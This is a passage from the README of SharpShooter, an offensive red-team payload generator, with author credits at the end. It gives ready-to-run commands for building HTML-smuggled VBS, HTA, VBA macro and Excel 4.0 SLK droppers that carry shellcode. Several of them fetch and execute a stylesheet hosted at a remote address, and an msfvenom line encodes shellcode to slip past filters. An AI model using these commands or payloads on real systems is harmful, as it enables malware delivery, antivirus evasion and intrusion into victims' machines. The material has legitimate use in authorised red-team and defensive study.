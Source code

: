 ### Creation of a Squiblytwo VBS ###

```
SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com outlook --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBS smuggled COM stager that uses the Outlook.CreateObject() COM method as a primitive to execute wmic.exe to execute a hosted stylesheet. The --awl parameter is not used by defaults to wmic.

### Creation of a XSL HTA ###

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a HTA smuggled file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.

### Creation of a VBA Macro ###

```
SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ./x86payload.bin --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBA macro file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.


### Creation of an Excel 4.0 SLK Macro Enabled Document ###

```
SharpShooter.py --payload slk --output foo --rawscfile ~./x86payload.bin --smuggle --template mcafee
```

This example creates an Excel 4.0 SLK file that executes the supplied shellcode and wraps it in HTML.
The shellcode cannot contain null bytes, hint:

```
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin -b '\x00'
```

Author and Credits
==================
Author: Dominic Chell, MDSec ActiveBreach [@domchell](https://twitter.com/domchell) and [@mdseclabs](https://twitter.com/mdseclabs)

Credits:
- [@tiraniddo](https://twitter.com/tiraniddo): James Forshaw for DotNetToJScript
- [@Arno0x0x](https://twitter.com/Arno0x0x): for EmbedInHTML
- [@buffaloverflow](https://twitter.com/buffaloverflow): Rich Warren for Demiguise
- [@arvanaghi](https://twitter.com/arvanaghi) and [@ChrisTruncer](https://twitter.com/ChrisTruncer): Brandon Arvanaghi and Chris Truncer for CheckPlease
- [@subTee](https://twitter.com/subtee): Documentation for Squiblydoo and Squiblytwo techniques
- [@StanHacked](https://twitter.com/stanhacked): Excel 4.0 technique and code examples
